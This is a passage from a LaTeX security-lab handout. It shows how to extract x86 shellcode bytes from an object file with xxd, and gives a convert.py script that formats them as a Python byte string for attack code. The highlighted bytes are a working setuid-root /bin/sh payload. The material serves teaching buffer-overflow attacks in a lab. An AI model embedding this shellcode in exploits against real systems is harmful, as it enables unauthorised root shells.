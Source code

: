 In the above printout, the highlighted numbers are machine code.
You can also use the \texttt{xxd} command to print out 
the content of the binary file, and you should be 
able to find out the shellcode's machine
code from the printout.

\begin{lstlisting}
$ xxd -p -c 20 mysh.o
7f454c4601010100000000000000000001000300
...
000000000000000000000000(*@\textbf{31db31c0b0d5cd80}@*)
(*@\textbf{31c050682f2f7368682f62696e89e3505389e131}@*)
(*@\textbf{d231c0b00bcd80}@*)00000000000000000000000000
...
\end{lstlisting}
 

\paragraph{Using the shellcode in attacking code.}
In actual attacks, we need to include the shellcode
in our attacking code, such as a Python or C program.
We usually store the machine code in an array, but
converting the machine code printed above 
to the array assignment in Python and C programs
is quite tedious if done manually, especially if 
we need to perform this process many times in the lab. 
We wrote the following Python code to
help this process. Just copy whatever you
get from the \texttt{xxd} command (only the shellcode part)
and paste it to the following code, between the lines
marked by \texttt{"""}. The code can be downloaded from the 
lab's website.


\begin{lstlisting}[caption=\texttt{convert.py}] 
#!/usr/bin/python3

# Run "xxd -p -c 20 mysh.o", and
# copy and paste the machine code part to the following:
ori_sh ="""
31db31c0b0d5cd80
31c050682f2f7368682f62696e89e3505389e131
d231c0b00bcd80
"""

sh = ori_sh.replace("\n", "")

length  = int(len(sh)/2)
print("Length of the shellcode: {}".format(length))
s = 'shellcode= (\n' + '   "'
for i in range(length):
    s += "\\x" + sh[2*i] + sh[2*i+1]
    if i > 0 and i % 16 == 15:
       s += '"\n' + '   "'
s += '"\n' + ").encode('latin-1')"
print(s)
\end{lstlisting}
 
The \texttt{convert.py} program will print out the 
following Python code that you can include 
in your attack code. It stores the shellcode in
a Python array. 
 
